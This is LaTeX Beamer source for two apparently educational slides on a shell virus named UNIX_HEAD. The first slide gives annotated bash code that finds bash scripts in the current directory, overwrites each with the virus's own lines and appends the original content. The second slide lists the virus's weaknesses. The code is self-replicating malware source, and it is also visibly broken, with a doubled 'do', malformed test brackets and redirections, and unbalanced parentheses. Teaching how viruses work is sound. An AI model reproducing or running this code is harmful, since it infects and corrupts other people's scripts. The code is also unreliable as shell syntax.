 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{The \texttt{UNIX\_HEAD} Virus}

\begin{block}{The \texttt{UNIX\_HEAD} Virus}
\begin{small}
\begin{semiverbatim}
for F in * do  {\color{gray} \# iterate over files }
   do
\alert<2>{      if[ "\$(head -c9 \$F 2 >> /dev/null)" == "\#!/bin/bash"]
         {\color{gray}\# if the first 9 characters are "\#!/bin/bash"}}
      then
\alert<3>{         HOST=\$(cat \$F | tr '\begin{math}\backslash\end{math}n' \begin{math}\backslash\end{math}xc7))
         {\color{gray}\# copy of target into \$HOST}}
\alert<4>{         head -11 $0 > $F 2> /dev/null
         {\color{gray}\# overwrite the target file }
         {\color{gray}\# with the first 11 lines }}
\alert<5>{         echo \$HOST | tr \begin{math}\backslash\end{math}xc7 '\begin{math}\backslash\end{math}n' >> \$F 2> /dev/null
         {\color{gray}\# the target file content is appended}
         {\color{gray}\# after the viral code}}
      fi
   done
\end{semiverbatim}
\end{small}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Characteristics of \texttt{UNIX\_HEAD}}
\begin{itemize}
\item It works by code appending.
\item Its scope is limited to the current directory.
\item There is no reinfection management.
\item The virus is not stealthy, infected files tend to grow in size.
\item The \texttt{tr} command produces errors, making the virus visible.
\end{itemize}
\end{frame}


\section{Conclusion}
\end{document}
